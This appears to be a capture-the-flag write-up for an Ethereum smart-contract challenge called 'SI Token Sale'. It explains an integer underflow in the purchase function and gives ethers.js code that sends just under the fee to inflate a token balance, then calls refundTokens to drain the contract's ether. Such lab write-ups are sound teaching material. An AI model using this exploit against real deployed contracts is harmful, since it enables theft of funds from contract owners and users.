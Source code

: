 # SI Token Sale

# Problem Statement
```
Game Balance: 0.3 ETH

It's finally happened!
Security Innovation is doing an ICO!
We are releasing 1000 SI Tokens (SIT) at the low low cost of 1 SIT == 1 ETH (minus a small developer fee).
We have yet to figure out what these tokens will be used for, but we are leaning towards something IOT / Machine Learning / Big Data / Cloud.
Secure your SIT today before they're gone!

----------------
|0|Purchase SIT|
----------------
Plus buyer protections!
We understand that you may be unhappy with your purchase of SIT.
For that reason, during the duration of the crowdsale you will be able to return your SIT and receive 50% of your ETH back.

--------------
|0|Refund SIT|
--------------
Viewing and Trading your Tokens
SIT is an ERC20 compliant token!
You can view and trade your tokens using MyCrypto by adding a custom token with the following parameters
Contract Address: CONTRACT_ADDRESS
Symbol: SIT
Decimals: 18
```

# Solution
Lets check our balance:
```
// using ethers.js
const contractAddress = // SITokenSale contract address
const abi = [
  {
    constant: true,
    inputs: [{ name: "_owner", type: "address" }],
    name: "balanceOf",
    outputs: [{ name: "balance", type: "uint256" }],
    payable: false,
    stateMutability: "view",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const myBalance = await contract.balanceOf("YOUR_ADDRESS");
console.log(myBalance);
// returns 0
```
The first part of the vulnerability is located in the `purchaseTokens` function:
```
balances[msg.sender] += _value - feeAmount;
```
This will produce an underflow. The `feeAmount` is `10 szabo`. So all we need to do is to send `1 wei` less than `10 szabo`.
The `szabo` to `wei` conversion in this version (`0.4.24`) of solidity is:
```
1 szabo = 1000000000000 wei
```
Now that we know this, we need to trigger the fallback function call to `purchaseTokens` with `9999999999999 wei`:
```
const contractAddress = // SITokenSale contract address
const txData = {
  to: contractAddress,
  value: "9999999999999",
};
await eoa.sendTransaction(txData);
```
Now check your balance again using the previous call above. You should see:
```
1.157920892373162e+77
```
Great! We've successfully performed an underflow! Now, we just need to run `refundTokens` to drain the remaining ether in the contract:
```
const contractAddress = // SITokenSale contract address
const contractEtherBalance = await provider.getBalance(contractAddress);
console.log(contractEtherBalance);
// returns 300009999999999999
```
Since `refundTokens` divides the ethereum by half we just need to double the amount we send as the `_value`:
```

const contractAddress = // SITokenSale contract address
const abi = [
  {
    constant: false,
    inputs: [{ name: "_value", type: "uint256" }],
    name: "refundTokens",
    outputs: [],
    payable: false,
    stateMutability: "nonpayable",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const tx = await contract.refundTokens("600019999999999998"); // 300009999999999999 * 2
```

We've completed this lesson!

# Key Learnings
- Be aware of underflow and overflow vulnerabilities especially with older Solidity contracts.
